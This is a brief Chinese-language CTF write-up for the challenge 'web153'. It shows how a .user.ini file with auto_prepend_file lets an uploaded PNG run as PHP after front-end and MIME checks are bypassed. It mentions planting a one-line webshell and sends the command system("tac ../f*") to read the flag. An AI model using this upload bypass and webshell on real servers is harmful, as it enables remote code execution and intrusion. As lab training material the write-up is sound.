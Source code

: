 # web153
需借助.user.ini上传文件
1.前端验证绕过
2.MIME头绕过

# 在所有页面加载前，自动包含指定文件，文件内的php代码会正常执行
auto_prepend_file=1.png
# 在文件加载后包含
auto_append_file=1.png

![](vx_images/419036507302194.png)
![](vx_images/519915853996978.png)
之后再上传一个名为1.png的文件,内容中写上一句话木马
![](vx_images/282957432581063.png)
不知道为什么蚁剑连接不上,直接手动输(注意路径不要带马,直接访问url/upload/)
![](vx_images/516673267265989.png)
x=system("tac ../f*");
![](vx_images/20924102896757.png)